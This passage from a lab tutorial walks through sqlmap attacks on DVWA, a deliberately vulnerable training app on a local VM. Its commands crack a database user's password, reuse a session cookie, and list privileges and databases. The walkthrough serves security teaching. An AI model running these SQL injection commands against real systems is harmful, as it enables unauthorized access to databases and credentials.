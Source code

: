 2. Obtain Database Management Username and Password \(Part 2\)

   * **Instructions:**
     1. Use Dictionary Attack? Y
     2. Dictionary Location?  &lt; Press Enter &gt;
   * **Notes\(FYI\):**  
     1. Notice the password for username db\_hacker was cracked.

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.101.jpg)

3. Obtain db\_hacker Database Privileges seperti itu

   * **Note\(FYI\):**
     * Replace 192.168.1.106 with Fedora's IP address obtained in \(Section 3, Step 3\).
     * Replace \( **lpb5g4uss9kp70p8jccjeks621 **\) with your PHPSESSID obtained from \(Section 9, Step 10\).
   * **Instructions:**  
     1. ./sqlmap.py -u "http:// 192.168.1.106 /dvwa/vulnerabilities/sqli/?id=1 & Submit=Submit" --cookie="PHPSESSID= **lpb5g4uss9kp70p8jccjeks621 **; security=low" -U db\_hacker --privileges

     * -u, Target URL
     * --cookie, HTTP Cookie header
     * -U, Specify database management user
     * --privileges, list database management system user's privileges

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.103.jpg)

4. View Results: Obtain db\_hacker Database Privileges

   * **Instructions:**  
     1. Notice that DBMS user "db\_hacker" has administrative privileges  
     2. Notice that "db\_hacker" can log in from anywhere, via the "%" wildcard operator.

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.104.jpg)

| **Section 12: Obtain a list of all Databases** |
| :--- |


1. Obtain a list of all databases

   * **Notes\(FYI\):**
     1. Obtain the referer link from \(Section 9, Step 10\), which is placed after the "-u" flag below.
     2. Obtain the cookie line from \(Section 9, Step 10\), which is placed after the "--cookie" flag below.
     3. Replace 192.168.1.106 with Fedora's IP address obtained in \(Section 3, Step 3\).
     4. Replace \( **lpb5g4uss9kp70p8jccjeks621 **\) with your PHPSESSID obtained from \(Section 9, Step 10\).
   * **Instructions:**
     1. ./sqlmap.py -u "http:// 192.168.1.106 /dvwa/vulnerabilities/sqli/?id=1 & Submit=Submit" --cookie="PHPSESSID= **lpb5g4uss9kp70p8jccjeks621 **; security=low" --dbs
        * -u, Target URL
        * --cookie, HTTP Cookie header
        * --dbs, List database management system's databases.
   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.98.jpg)

2. Review Results: Obtain a list of all databases
